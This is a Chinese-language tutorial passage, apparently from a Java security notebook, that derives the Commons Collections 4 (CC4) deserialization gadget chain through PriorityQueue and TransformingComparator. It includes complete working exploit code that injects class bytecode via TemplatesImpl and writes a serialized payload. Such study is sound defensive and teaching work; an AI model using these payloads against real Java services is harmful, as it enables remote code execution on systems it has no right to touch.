# 07 · 反序列化链 · CC4

> 查阅区 · **只查不读**，不进学习路径。原文拆自 `JAVA安全-全本`，正文一字未改，仅调标题层级与图片相对路径。
> 什么时候翻：红队 M3；入口改了、执行部分复用 CC3，用来理解「改哪一段」

该链沿用CC3的类加载命令执行方式，也就是执行部分不变，入口部分改变。

- 之所以入口部分改变是因为该链使用Common Collections 4.0版本，而该版本的`TransformingComparator类`可以序列化，而在3.2.1版本中不行

  

- 通过该类的`compare()`可以调用`transform()`

  

- 接下来就是要找某类调用了`compare()`，最好是在反序列化入口方法中调用，最后找到的是`PriorityQueue类`

  

  - 跟进`heapify()`

    

  - 继续跟进

    

  - 最后找到方法的调用

    

- 前部分的逻辑基本理顺可以写成初步EXP，后部分直接照搬CC3的执行链

  ```java
          TemplatesImpl templates = new TemplatesImpl();
          Class templatesClass = templates.getClass();
  
          Field name = templatesClass.getDeclaredField("_name");
          name.setAccessible(true);
          name.set(templates, "name");
  
          Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
          bytecodes.setAccessible(true);
          byte[] code = Files.readAllBytes(Paths.get("D:\\Loader\\Calc.class"));
          byte[][] codes = {code};
          bytecodes.set(templates, codes);
          Transformer[] transformers = new Transformer[] {
                  new ConstantTransformer(TrAXFilter.class),
                  new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
          };
          ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
  //		通过TransformingComparator.compare()调用ChainedTransformer.transform()
          TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
  //		通过PriorityQueue.readObject()作为反序列入口部分
          PriorityQueue<Object> priorityQueue = new PriorityQueue<>(transformingComparator);
  ```

- 好不出意外的报错了，还是调试，通过修改参数改变代码逻辑将链条引导向想要的方向，在`readObject()`下断点，发现在链条最初的`heapify()`就出问题了，这里用了一个`>>>`移位运算符

  

  - 这里传入的size为0，计算结果i为 0-1 = -1无法进入for循环

    

  - 当size为2时，计算结果i = 0，能进入循环

    

  - 看变量声明，size是`PriorityQueue`的队列长度，所以向队列添加2个内容即可

    

    ```java
            priorityQueue.add(1);
            priorityQueue.add(2);
    ```

- 运行还是报错，跟进`add()`

  

  

  

  

- 会发现在执行`add()`，会执行一次整体链，之所以报错是因为此处没有修改`_tfactory`变量值，但是此值在反序列化时会自动赋值，所以和之前的`HashMap.put()`的处理方式一致，先不写成完整的链，在序列化之前再将链补全即可，所以最终代码如下

  ```java
          TemplatesImpl templates = new TemplatesImpl();
          Class templatesClass = templates.getClass();
  
          Field name = templatesClass.getDeclaredField("_name");
          name.setAccessible(true);
          name.set(templates, "name");
  
          Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
          bytecodes.setAccessible(true);
          byte[] code = Files.readAllBytes(Paths.get("D:\\Loader\\Calc.class"));
          byte[][] codes = {code};
          bytecodes.set(templates, codes);
          Transformer[] transformers = new Transformer[] {
                  new ConstantTransformer(TrAXFilter.class),
                  new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
          };
          ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
  //		通过TransformingComparator.compare()调用ChainedTransformer.transform()
          TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer(1));
  //		通过PriorityQueue.readObject()作为反序列入口部分
          PriorityQueue<Object> priorityQueue = new PriorityQueue<>(transformingComparator);
          priorityQueue.add(1);
          priorityQueue.add(2);
  
  		Class<? extends TransformingComparator> transformingComparatorClass = transformingComparator.getClass();
  
          Field transformingComparatorClassDeclaredField = transformingComparatorClass.getDeclaredField("transformer");
          transformingComparatorClassDeclaredField.setAccessible(true);
          transformingComparatorClassDeclaredField.set(transformingComparator, chainedTransformer);
  
          serialize(priorityQueue);
          deserialize("ser4.bin");
  ```

- 当然也可以直接通过反射修改size的值，而不用`add()`添加队列值，便可以直接执行，代码如下

  ```java
  package CC4;
  
  import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
  import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
  import org.apache.commons.collections4.Transformer;
  import org.apache.commons.collections4.comparators.TransformingComparator;
  import org.apache.commons.collections4.functors.ChainedTransformer;
  import org.apache.commons.collections4.functors.ConstantTransformer;
  import org.apache.commons.collections4.functors.InstantiateTransformer;
  
  import javax.xml.transform.Templates;
  import java.io.*;
  import java.lang.reflect.Field;
  import java.nio.file.Files;
  import java.nio.file.Paths;
  import java.util.PriorityQueue;
  
  public class CC4Test {
      public static void main(String[] args) throws Exception {
  
          TemplatesImpl templates = new TemplatesImpl();
          Class templatesClass = templates.getClass();
  
          Field name = templatesClass.getDeclaredField("_name");
          name.setAccessible(true);
          name.set(templates, "name");
  
          Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
          bytecodes.setAccessible(true);
          byte[] code = Files.readAllBytes(Paths.get("D:\\Loader\\Calc.class"));
          byte[][] codes = {code};
          bytecodes.set(templates, codes);
  
          Transformer[] transformers = new Transformer[] {
                  new ConstantTransformer(TrAXFilter.class),
                  new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
          };
          ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
  
          TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
  
          PriorityQueue<Object> priorityQueue = new PriorityQueue<>(transformingComparator);
  
          Class<? extends PriorityQueue> priorityQueueClass = PriorityQueue.class;
          Field sizeField = priorityQueueClass.getDeclaredField("size");
          sizeField.setAccessible(true);
          sizeField.set(priorityQueue, 2);
  
          serialize(priorityQueue);
          deserialize("ser4.bin");
  
      }
  
      private static void serialize(Object obj) throws IOException {
          ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser4.bin"));
          oos.writeObject(obj);
      }
  
      private static Object deserialize(String Filename) throws IOException, ClassNotFoundException {
          ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
          Object o = ois.readObject();
          return o;
      }
  }
  
  ```

- Gadget

  ```java
  PriorityQueue.readObject()
      TransformingComparator.compare()
      	ChainedTransformer.transform()
      		ConstantTransformer.transform()
      			InstantiateTransformer.transform()
      			TemplatesImpl.newTransformer()
  ```
